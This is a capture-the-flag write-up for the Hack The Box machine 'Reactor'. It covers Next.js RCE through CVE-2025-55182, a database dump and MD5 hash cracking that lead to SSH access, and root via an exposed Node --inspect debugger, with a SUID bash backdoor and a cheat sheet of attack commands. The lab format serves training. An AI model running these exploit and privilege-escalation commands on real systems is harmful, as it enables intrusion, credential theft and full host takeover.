








# Reactor — Lab Methodology Report

> **Goal of this doc:** Not a copy-paste walkthrough. A **problem-solving map** so you can reuse the same thinking on other boxes.

| Field | Value |
|-------|-------|
| Box | Reactor (HTB) |
| Difficulty | Easy |
| OS | Linux (Ubuntu 24.04) |
| IP | 10.129.34.75 *(resets change IP)* |
| Flags | user.txt + root.txt |

---

## Full Attack Chain (Bird's Eye)



---

## The Methodology (Reuse on Every Box)



### After Every Finding — Ask These 4 Questions

1. **What technology is this?** (product + version, not "port 3000")
2. **What do I gain if this works?** (shell / creds / file / pivot)
3. **What is the logical next step?** (one link forward in the chain)
4. **Did I write result + next step?** (don't lose context)

---

## Phase 1 — Reconnaissance

### What we did

```bash
# Step 1: find ALL open ports (always do this first)
nmap -p- -T4 --min-rate 2000 --open <IP> -oN scan/reactor--tcp-full.txt

# Step 2: deep scan ONLY the open ports
nmap -p 22,3000 -Pn -sV -sC <IP> -oN scan/reactor--deep.txt
```

### Results

| Port | Service | Real identity |
|------|---------|---------------|
| 22 | SSH | OpenSSH 9.6 (Ubuntu) |
| 3000 | `ppp?` *(wrong)* | **HTTP — Next.js App Router** |



### Lesson

> **Nmap `-sV` can mislabel ports.** If fingerprint-strings return HTTP, treat it as HTTP — run `curl`, browser, ffuf, nuclei against the **actual port** (`:3000`), not `:80`.

Generic nmap HTTP scripts (`http-title`, `http-headers`) gave little value here. Next.js needs **app-specific** enum (nuclei, nextr4y, JS chunk analysis, sourcemaps).

---

## Phase 2 — Web Enumeration & Version ID

### Technology stack identified



| Signal | Where found | Meaning |
|--------|-------------|---------|
| `X-Powered-By: Next.js` | HTTP headers | Framework |
| `Vary: RSC, Next-Router-...` | HTTP headers | App Router + Server Components |
| `self.__next_f.push` | page HTML | React Server Components payload |
| `next: 15.0.3`, `react: 19.0.0` | `/opt/reactor-app/package.json` | Exact versions (via RCE later) |
| Build ID `L3bimJe_3LvBcFWAnK5L4` | RSC payload in HTML | App Router build hash |

### Tools used

| Tool | Purpose | Result |
|------|---------|--------|
| **nuclei** | CVE scan | Hit **CVE-2025-55182** (critical) |
| **nextr4y** | Next.js fingerprint | Confirmed Next.js / React |
| **curl + base.html** | Manual fingerprint | Static "ReactorWatch" dashboard (decoy UI) |

### Lesson

> The landing page is a **static decoy dashboard**. Real attack surface = **Server Actions / RSC deserialization**, not hidden login forms on `/`.

---

## Phase 3 — Foothold (CVE-2025-55182 / React2Shell)

### What the vuln is (simple)

React Server Components deserialize HTTP POST bodies **before** checking if the Server Action ID is valid. A crafted `multipart/form-data` POST with a `Next-Action` header → **unauthenticated RCE** as the web process user.



### Exploit

```bash
git clone https://github.com/jensnesten/React2Shell-PoC
python3 main.py http://<IP>:3000 'id'
# uid=999(node) gid=988(node)
```

**Important:** Avoid single quotes inside commands — they break the JS payload string. Use temp files instead:

```bash
python3 main.py http://<IP>:3000 \
  'sqlite3 /opt/reactor-app/reactor.db .dump > /tmp/db.txt && cat /tmp/db.txt'
```

### What we gained

- RCE as **`node`** (not root, not engineer)
- Read access to `/opt/reactor-app/` including `reactor.db` and `package.json`
- **Cannot** read `/home/engineer/user.txt` (permission denied)

---

## Phase 4 — Lateral Move (node → engineer)



### Credentials from SQLite

| User | MD5 hash | Cracked password |
|------|----------|------------------|
| engineer | `39d97110eafe2a9a68639812cd271e8e` | `reactor1` |
| admin | `a203b22191d744a4e70ada5c101b17b8` | *(not needed)* |

```bash
echo '39d97110eafe2a9a68639812cd271e8e' > engineer.hash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt engineer.hash
# reactor1

ssh engineer@<IP>
cat ~/user.txt
```

### Lesson

> **Web app creds often reuse for SSH.** Always crack DB hashes and try SSH/SFTP with the same passwords. User flag usually requires the **correct Unix user**, not just any shell.

---

## Phase 5 — Privilege Escalation

### Privesc decision tree (what we tried)

```mermaid
flowchart TD
    START[engineer shell] --> ID[id / sudo -l / groups]

    ID --> LXD{lxd group?}
    LXD -->|yes| LXC[lxc init / alpine image]
    LXC --> SNAP[snap install lxd]
    SNAP -->|no internet| DEAD1[❌ DEAD END<br/>decoy]

    ID --> SUDO{sudo -l?}
    SUDO -->|denied| DEAD2[❌ DEAD END]

    ID --> KERN{kernel exploit?}
    KERN -->|52573.rs = Rust not Python<br/>likely patched| DEAD3[❌ DEAD END<br/>rabbit hole]

    ID --> PS[ps aux | grep root]
    PS --> NODE[root node --inspect :9229]
    NODE --> CDP[CDP Runtime.evaluate]
    CDP --> ROOT[✓ root flag]

    style DEAD1 fill:#faa,stroke:#333
    style DEAD2 fill:#faa,stroke:#333
    style DEAD3 fill:#faa,stroke:#333
    style ROOT fill:#afa,stroke:#333
```

### Trap #1 — LXD group (DECOY)

```bash
groups   # engineer is in lxd
lxd init --auto
# → "Installing LXD snap..." → Connection reset (no internet)
# → /snap/bin/lxd: not found
```

`/usr/sbin/lxc` is a **590-byte shim** that triggers snap install. No internet = no snap = no LXD daemon. Transferring alpine.tar.gz via SCP **does not help**.

### Trap #2 — Kernel exploit EDB 52573

- File named `.py` but is **Rust** source (needs `cargo build`, not `python3`)
- Header comment missing `/*` → compile errors
- Target has **no compiler** anyway
- Kernel `6.8.0-117-generic` likely **patched** on HTB
- **Wrong path** when Node inspector exists

### Trap #3 — sudo

```bash
sudo -l
# Sorry, user engineer may not run sudo on reactor.
```

---

## Phase 6 — Real Privesc (Node.js `--inspect`)

### How we found it

```bash
# List root-owned USERSPACE processes (skip kernel threads in [])
ps aux | grep root | grep -v '\[' | grep -i node
```

**Hit:**

```
root  1410  /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```



### What `--inspect` means

Node.js opens the **Chrome DevTools Protocol (CDP)** debugger. Anyone who can connect can run JavaScript **inside that process** — and this process is **root**.

Localhost (`127.0.0.1`) is NOT safe if you already have a shell on the box.

### Exploit

```bash
# 1. Confirm debugger
curl -s http://127.0.0.1:9229/json | head

# 2. Run commands as root (use process.mainModule.require — NOT bare require)
python3 /tmp/node_inspector_rce.py 'id'
python3 /tmp/node_inspector_rce.py 'cat /root/root.txt'
```

**Why `require` failed:** CDP `Runtime.evaluate` runs in an isolated context. Use:

```javascript
process.mainModule.require('child_process').execSync('id')
```

### Alternative: SSH tunnel + Chrome

```bash
# On attack box
ssh -L 9229:127.0.0.1:9229 engineer@<IP>
# chrome://inspect → Configure → localhost:9229 → Inspect → Console
```

### Optional: persistent root shell

```bash
python3 /tmp/node_inspector_rce.py \
  'process.mainModule.require("child_process").execSync("chmod u+s /bin/bash")'
bash -p
id   # uid=0(root)
```

---

## Dead Ends Summary

| Attempt | Why it failed |
|---------|---------------|
| LXD / lxc privesc | Shim only; snap install needs internet |
| SCP alpine image | No LXD daemon to import into |
| Kernel exploit 52573 | Wrong language (Rust), patched kernel, no compiler on target |
| nmap HTTP scripts alone | Don't fingerprint Next.js versions |
| Read user.txt via node RCE | Wrong user; need engineer SSH |
| `require()` in CDP | Use `process.mainModule.require` instead |

---

## Key Commands Cheat Sheet

```bash
# --- RECON ---
nmap -p- -T4 --min-rate 2000 --open <IP>
nmap -p 22,3000 -Pn -sV -sC <IP>
curl -sI http://<IP>:3000/

# --- WEB / CVE ---
nuclei -u http://<IP>:3000 -tags nextjs,cve
python3 main.py http://<IP>:3000 'id'                    # React2Shell PoC
python3 main.py http://<IP>:3000 'cat /opt/reactor-app/package.json'

# --- CREDENTIALS ---
python3 main.py http://<IP>:3000 \
  'sqlite3 /opt/reactor-app/reactor.db .dump > /tmp/db.txt && cat /tmp/db.txt'
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt engineer.hash
ssh engineer@<IP>

# --- PRIVESC ENUM ---
id; sudo -l; groups
ps aux | grep root | grep -v '\['
ps aux | grep root | grep -v '\[' | grep -iE 'node|python|inspect|debug'
ss -tln | grep -E '9229|debug'

# --- ROOT ---
curl -s http://127.0.0.1:9229/json
python3 /tmp/node_inspector_rce.py 'cat /root/root.txt'
```

---

## Reusable Privesc Enum Pattern



**On Reactor, step F2 found the answer.** Always check for debug flags on root processes.

---

## Lessons for Future Labs

1. **Scan all ports first**, then deep-scan only what's open.
2. **Identify the technology** (Next.js + RSC, not "port 3000 HTTP").
3. **Match CVE to stack** — nuclei confirmed React2Shell; that was the foothold.
4. **RCE ≠ user flag** — check `whoami`, then pivot to the right Unix user.
5. **Crack every hash** you find; try creds on SSH.
6. **Groups can lie** — `lxd` looked promising but was a decoy without internet.
7. **Hunt root processes** with `ps` + grep for `inspect`, `debug`, interpreters.
8. **Localhost services are reachable** from any shell on the box (or via SSH `-L`).
9. **Read errors carefully** — `require is not defined` meant wrong CDP context, not a dead end.
10. **Verify exploit file types** — EDB `.py` files aren't always Python.

---

## Timeline

| Stage | Action | Result | Next |
|-------|--------|--------|------|
| recon | `nmap -p-` | Ports 22, 3000 only | Deep scan + web enum |
| enum | nuclei + nextr4y | CVE-2025-55182, Next.js/RSC | Exploit RCE |
| exploit | React2Shell PoC | Shell as `node` | Dump reactor.db |
| pivot | Crack MD5 → SSH | `engineer:reactor1`, user.txt | Privesc enum |
| privesc (fail) | LXD / kernel | Dead ends (decoy / patched) | Hunt root procs |
| privesc (win) | Node `--inspect` CDP | Root via port 9229 | root.txt |

---

## File Map (this lab folder)

```
Reactor-machine/
├── scan/           # nmap output
├── enum/web/       # base.html, nuclei, nextjs-deep-enum.sh
├── exploit/
│   ├── React2Shell-PoC/       # foothold
│   └── node_inspector_rce.py  # root privesc
└── draft.md        # this file
```
